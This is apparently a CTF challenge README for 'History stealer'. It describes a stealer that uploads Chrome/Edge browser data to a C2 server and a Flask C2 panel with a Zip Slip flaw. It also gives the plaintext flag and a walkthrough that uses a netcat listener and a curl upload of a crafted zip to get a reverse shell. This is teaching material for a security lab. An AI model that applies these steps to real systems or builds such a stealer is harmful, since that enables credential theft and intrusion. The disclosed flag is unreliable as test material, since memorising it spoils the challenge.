

# History stealer

**Author:** 0xHamy

**Category:** Web

## Description

This challenge introduces players to exploit common mistakes that some threat actors make such as designing flawed C2(s). The player will learn how to reverse engineer a malware, trace a malware to a C2, hijack the C2 and hack the attacker's server.

It also teaches them what not to do if they were to run a similar attack and the C2 interface can be accessed if players were to bruteforce it, upon logging in, they would be able to interact with uploaded files, unzipped archives and the malware builder. 

Difficulty: Intermediate


### Files

[election_update.pdf.exe](./release_files/election_update.pdf.exe)

## Part 1 

**CTFd name:** History stealer

### CTFd Description

An election candidate's computer has been hacked. The incident response team have captured the malicious  binary that communicated with an external C2 server. Can you find and hijjack it?

### Flag

<details>
<summary>(expand to read)</summary><br>


FLAG{7Ha7_wa5_n07_57a73_5P0N50r3d_Ap7_8u7_1_AM}

</details>


### Walkthrough

<details>
<summary>(expand to read)</summary><br>




This challenge is going to have several moving parts such as:
- A web app & server for the C2
- An executable binary with a hardcoded but obfuscated C2 URL


#### Web App
This Flask application uses a hardcoded PIN to protect routes that allow authenticated users to upload ZIP files, extract their contents (with a known Zip Slip vulnerability), browse or view extracted files, and download original ZIPs or generated executables; it also provides a builder interface where users submit parameters (executable name, upload URL, target browser, interval, self-destruct/silent flags) to invoke a `build_executable` function that creates new `.exe` files stored in a `builds` directory. 

The app ensures required folders (`uploads`, `unzipped`, `static`, `builds`) exist, handles login/logout via session flags, saves each uploaded ZIP under a sanitized “computer_name” filename, and on extraction writes files either under `unzipped/<computer_name>/...` or (if the archive path is absolute/contains `..`) under the system root, then returns JSON status codes. 

Static-serving routes distinguish `.zip`, `.exe`, and other file requests to send from their respective directories, while `/view` and `/explore` endpoints allow reading text files or listing directory contents in the unzipped area. Finally, running the script starts Flask’s development server on port 49858.

#### Stealer program
This program stealthily collects Chrome/Edge user data, zips it, and uploads to a C2 server, optionally repeating on a schedule or self-destructing afterward. `Config` holds C2 URL, browser data paths, temp ZIP path, target browser(s), interval (`Hours`), and a `SelfDestruct` flag.

`BrowserDataZipper.CreateZip()` deletes any existing ZIP, creates a temp folder, and for each targeted browser copies files from the browser’s “User Data\Default” folder into the temp folder before adding them to `browser_data.zip`; it ignores file-in-use errors and deletes the temp copies when done.

`Uploader.UploadZipAsync()` checks for `browser_data.zip`, builds a multipart/form-data POST (including `computer_name` and the ZIP bytes) to the C2 URL using `HttpClient`, catches all exceptions, and deletes the ZIP afterward.

If `Config.SelfDestruct` is true, `SelfDestruct.DeleteSelf()` writes a batch script that waits briefly and then deletes the running executable and itself.

In `MainAsync()`, the code loops: call `CreateZip()`, await `UploadZipAsync()`, check `SelfDestruct` (delete and break if set), and if `Hours > 0`, wait that many hours before repeating. If `Hours == 0`, it runs once. Finally, it prints “Program running normally.” to the console.


#### To solve: 

* Grab Base64-encoded pieces of C2 URL with `strings -e l election_update.pdf.exe` and decode them
* Follow the URL and examine the UI
* Notice that there is a way to upload zip files. Build one using a script similar to provided [create_zip.py](./solve_files/create_zip.py)
* Set up a listener on port `6000`: `nc -l 6000`
* Upload the zip file to the server and wait for a reverse shell connection:
```
curl -F "computer_name=X" -F "file=@./shell.zip" http://10.0.2.253:49858/ba5e864526cbaa667bca74e2d1d453f0/file_upload
```
* The flag is in `/root/flag.txt`


</details>


## Setup instructions

Run:
```
sudo docker compose up --build -d
```

Use this for killing & starting a container with no cache:
```
sudo docker compose down && sudo docker compose build --no-cache && sudo docker compose up 
```

This will also copy flag.txt to `/root` directory of the docker container.


## Contact
For any problems regarding this challenge, contact me on GitHub or Discord @0xHamy.
